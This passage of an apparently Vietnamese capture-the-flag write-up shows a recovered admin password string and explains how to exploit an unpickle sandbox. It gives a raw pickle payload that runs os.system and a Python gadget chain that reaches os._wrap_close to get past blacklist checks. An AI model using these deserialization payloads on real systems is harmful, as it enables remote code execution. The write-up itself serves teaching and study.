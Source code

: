 ta nhận được mật khẩu của admin và thành công login. `Kpvwmec6swPh6WFFo6BFnf0HKgmr5otfEZj9sSxKNNs9PhsRhCEAOGqVL6VyAiI32EppTmsIeT8kY7aelEvtGkQXsF2t0UKcZmOGvDbPkm6acsKUALXb6zJWmqpRbm8A`

Khi đăng nhập với tài khoản admin ta có thể truy cập page AdminPage và thực hiện hàm unpickle trong `sandbox.py`

```python
payload = (
b'''\x80\x04c__main__
__builtins__.eval
(V__import__('os').system('whoami')
tp0
Rp1
.'''
)
```

Ta sử dụng chain `__main__.__builtins__.eval("__import__('os').system('whoami')")`.
 Như vậy ta thành công vượt qua lớp kiểm tra whitelist ở module. Một 
điểm lưu ý là, ở đây ta cần chỉ rõ protocol được sử dụng là 4 trở lên.

Tiếp theo ta cần phải thực hiện thêm việc bypass logic được thêm: các module
 không được bắt đầu bằng các giá trị trong UNSAFE_NAMES và 
BLACKLISTED_NAMES. Để bypass được ta cần thực hiện một chain phức tạp 
hơn. Một điều khó khăn trong việc craft chain là pickle không hỗ trợ 
việc truy cập trực tiếp value-key như python thông thường mà ta sẽ phải 
tư duy với logic stack để dần truy cập đến attribute mong muốn.

Tuy nhiên, ta không thể trực tiếp craft payload này nhờ opcode vì pickle không hỗ trợ truy cập key-value, ta không thể gọi `__subclasses__()[137]` hay `__globals__['__builtins__']['eval']` trực tiếp. Để giải quyết vấn đề này, ta phải tìm cách truy cập các attribute này nhờ các method callable có sẵn ví dụ `__getattribute__`, `list.__getitem__`, `object.__subclasses__`. Đầu tiên ta cần truy cập tới value index của list `__subclasses__()`

```python
import __main__
def main():pass

mysubclasses = __main__.__class__.__base__.__subclasses__
myatrr = __main__.__class__.__base__.__getattribute__
mysubclasseslist = mysubclasses()                      #[1]
mygetitem = myatrr(mysubclasseslist, '__getitem__')    #[2]
myoswrapclose = mygetitem(155)                         #[3]

print(myoswrapclose) #<class 'os._wrap_close'>
```

Phần code này định nghĩa 2 method và thực thi 3 method chỉ sử dụng những yếu tố pickle có: thực thi với **REDUCE** và đệ quy lấy attribute với proto 4 trở lên. Phân tích như sau:

1. Khi ta thực thi method `object.__subclasses__()` như 
   trình bày trong phần code trên là phần định nghĩa biến mysubclasseslist,
   nó sẽ trả về một list là những class là subclass của object.

2. Khi ta thực thi method `object.__getattribute__(obj, "attr-name")` thì nó sẽ thực hiện trả về thuộc tính attr-name của object obj, hay 
   mình thường hiểu là nó trả về obj.attr-name. Như trong code trên thì nó 
   trả về `object.__subclasses__()__getitem__` . Vốn dĩ là vì lúc này obj là một list, mà list thì sẽ có cái dunder method `__getitem__`.
